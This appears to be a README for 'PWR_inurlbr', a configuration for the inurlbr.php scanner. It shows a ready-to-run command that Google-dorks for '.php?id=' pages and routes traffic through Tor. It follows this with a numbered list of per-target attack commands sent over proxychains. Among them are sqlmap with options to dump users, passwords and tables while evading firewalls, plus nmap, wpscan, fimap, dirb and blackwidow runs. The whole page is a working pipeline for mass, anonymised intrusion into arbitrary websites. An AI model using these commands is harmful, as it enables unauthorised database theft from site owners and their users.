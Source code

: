 # PWR_inurlbr

Example usage:

./inurlbr.php  --dork 'inurl:.php?id=' --custom-config K00B404.conf -s maart2018.lst --tor-random  --mp 1 -q 1,2,3,4,5,6,7 --exploit-vul-id 1,2,3,5,15,4 --exploit-get "'0x27%27"  --custom-blacklist '.fleurlis.,.katun.,.alphaone.,.katun.me,.bible-history.'


for list of --exploit-vul-id options which you can add if you like

./inurlbr.php --custom-config K00B404.conf --exploit-list

    [0] => TYPE::COMMAND
    [1] => MKDIR::service tor restart && mkdir -p output/_TARGET_
    [2] => DIG::proxychains dig -4 _TARGET_ > "output/_TARGET_/dig_output.lst" | cat "output/_TARGET_/dig_output.lst"
    [3] => GEOLOCATE::echo _TARGET_ >  "output/_TARGET_/ip_geo.txt" && geoiplookup _TARGETIP_ >> "output/_TARGET_/ip_geo.txt" |cat "output/_TARGET_/ip_geo.txt"
    [4] => SQLMAP::proxychains sqlmap -u "_TARGETFULL_" --dbms mysql --hex --output-dir "output/" --passwords --users --threads 10 --tables --dbs --skip-waf --random-agent --level 2 --risk 3 --batch --retries=1 --timeout 10 --smart --is-dba --dump
    [5] => NMAP::proxychains nmap -F -n -Pn -vvv --open _TARGETIP_ > "output/_TARGET_/nmap_output.lst" |cat  "output/_TARGET_/nmap_output.lst"
    [6] => WPSCAN::wpscan --url "http://"_TARGET_  --batch
    [7] => NMAP::proxychains nmap -n -Pn -vvv --open -p 81,8001,8081 _TARGETIP_ -sV > "output/_TARGET_/nmap_output.lst" |cat "output/_TARGET_/nmap_output.lst"
    [8] => NMAP::proxychains nnmap -vv _TARGETIP_ | grep "Discovered open port" | awk {'print $6":"$4'} | awk -F/ {'print $1'} > "output/_TARGET_/nmap_ip_port_output.lst" |cat "output/_TARGET_/nmap_ip_port_output.lst"
    [9] => SQLMAP::proxychains sqlmap -u "_TARGETFULL_" --dbms mysql --is-dba --users --passwords --skip-waf --random-agent --level 1 --risk 1 --batch --retries=1 --smart --output-dir="output/"
    [10] => NMAP::proxychains nmap -n -Pn -vvv --open --top-ports 10 _TARGETIP_ -sV
    [11] => FIMAP::proxychains fimap -u "http://_TARGET_" -4 -w "output/fimap__TARGET__found_urls.lst" -d 3 >> "output/_TARGET_/fimap_output.lst" |cat "output/_TARGET_/fimap_output.lst"
    [12] => DIRB::proxychains dirb "http://"_TARGET_ |grep "200" > "output/_TARGET__dirb_output.lst" |cat "output/_TARGET__dirb_output.lst"
    [13] => BLACKWIDOW::echo "BLACKWIDOW RUNNING" && proxychains blackwidow -l 1  -u "_TARGETFULL_" -d "_TARGET_" -s "output/_TARGET_/blackwidow_output.lst"
    [14] => SPIDER::echo "SPIDER SCRIPT" && python "modules/crawl.py" --verbose --max-urls=10 --max-time 3 -d 4 "http://"_TARGET_
    [15] => PORTTODB::bash Commands.sh _TARGET_

